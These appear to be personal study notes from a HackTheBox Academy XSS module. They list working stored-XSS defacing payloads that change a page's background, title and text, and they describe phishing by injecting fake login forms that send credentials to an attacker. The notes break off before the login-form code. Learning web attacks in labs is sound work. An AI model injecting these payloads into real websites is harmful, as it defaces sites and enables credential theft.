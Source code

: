 >[!note]
>whne using xssstrike make sure to put the url in double quotes or ' '
>trust me

# Defacing

One of the most common attacks usually used with stored XSS vulnerabilities is website defacing attacks. `Defacing` a website means changing its look for anyone who visits the website.

Four HTML elements are usually utilized to change the main look of a web page:

- Background Color `document.body.style.background`
- Background `document.body.background`
- Page Title `document.title`
- Page Text `DOM.innerHTML`
## Changing Background
```html
<script>document.body.style.background = "#141d2b"</script>
```

Another option would be to set an image to the background using the following payload:
```html
<script>document.body.background = "https://www.hackthebox.eu/images/logo-htb.svg"</script>
```

## Changing Page Title

```html
<script>document.title = 'HackTheBox Academy'</script>
```
## Changing Page Text

```javascript
document.getElementById("todo").innerHTML = "New Text"
```
```javascript
document.getElementsByTagName('body')[0].innerHTML = "New Text"
```

# Phishing

 A common form of XSS phishing attacks is through injecting fake login forms that send the login details to the attacker's server, which may then be used to log in on behalf of the victim and gain control over their account and sensitive information.

## XSS Discovery

`Before you continue, try to find an XSS payload that successfully executes JavaScript code on the page`.

## Login Form Injection
